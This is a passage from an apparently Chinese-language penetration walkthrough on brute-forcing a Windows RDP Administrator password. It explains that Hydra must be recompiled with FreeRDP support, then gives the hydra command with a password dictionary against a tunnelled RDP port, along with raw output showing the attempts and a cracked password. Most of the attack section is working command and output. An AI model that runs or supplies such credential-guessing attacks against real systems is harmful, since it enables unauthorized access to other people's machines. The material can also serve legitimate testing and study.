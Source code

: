 ![frpc界面](img/5a3bcb9acca84f260b0e15136bc113e0.png)

### hydra爆破

这快会有一个坑，如果大家直接下载的是github官网上的hydra，那么会爆这个错误

```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-11-23 15:51:02
[ERROR] Compiled without FREERDP2 support, module not available! 
```

这个是release版本的hydra没有安装freedrp这个库，所以不支持rdp://协议，必须自己下载freerdp这个模块，然后编译进去

弄好以后，用hydra的命令爆破

```
#hydra -l Administrator -P dict.txt rdp://ip:30016

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-11-23 22:13:23
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) 
...
…
[ATTEMPT] target ip - login "Administrator" - pass "E0uZuSyKmHNklKN" - 6378 of 10009 [child 1] (0/9)
[ATTEMPT] target IP - login "Administrator" - pass "3RHlawCQ3GfM9Cq" - 6379 of 10009 [child 3] (0/9)
[12345][rdp] host: ip   login: Administrator   password: eDHU27TlY6ugslV
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-11-23 22:40:06 
```
